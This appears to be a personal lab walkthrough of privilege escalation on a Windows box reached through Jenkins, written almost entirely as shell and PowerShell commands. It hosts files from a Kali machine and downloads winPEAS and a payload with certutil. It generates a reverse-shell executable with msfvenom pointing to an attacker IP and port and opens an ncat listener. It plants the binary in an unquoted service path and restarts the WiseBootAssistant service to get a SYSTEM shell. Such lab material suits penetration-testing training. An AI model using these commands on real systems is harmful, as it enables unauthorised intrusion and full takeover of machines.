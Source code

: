 ```bash
#IN KALI
#after winpeas is downloaded and moved, start in transfer directory
#host the transfer directory
python3 -m http.server 80

```

```powershell
#in jenkins >> win box
dir #shows directories , look at any time changes and juicy files
cd \users\butler #cd back to home

certutil.exe -urlcache -f http://192.168.138.131/winpeas.exe winpeas.exe #grabbing winpeas and naming it

dir #to check
#run winpeas
winpeas.exe
#scroll through and look for juicy QUICK wins
```
- wisebootassistant looks very interesting , can modify all access? >> unquoted service path
	- we saw it in downloads as well
	- we can leverage wise.exe if we have write access to the wise folder
We now want to generate malware >> use msfvenom 
```bash
#in transfer directory
#manual, not through meterpreter
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.138.131 LPORT=7777 -f exe > wise.exe
#this generates our malware >> a reverse shell called wise.exe

#start transfer server again
python3 -m http.server 80
```
- open another terminal for listener session
```bash
ncat -nvlp 7777 #assign port from wise.exe malware
```
Back in Jenkins > we need to navigate to wise folder to place the malware, wise.exe
```powershell
cd c:\
dir #copy and paste where to move to
cd "Program Files (x86)"
cd Wise
dir #check , can see WiseCare 365
certutil -urlcache -f http://192.168.138.131/Wise.exe Wise.exe #transfer file over from kali, transfer server

#now how do we run Wise.exe? >> if we run it right away it will just run as user butler, we need it to run as system
#we need to STOP the service that is running and restart it
sc stop WiseBootAssistant #stops current service
sc query WiseBootAssistant #check if stopped

sc start WiseBootAssistant #runs shellcode as system, not user 
#check listener to see if it worked
```
Checking listener
```bash
#can see if shell spawned
whoami #nt authority\system
```
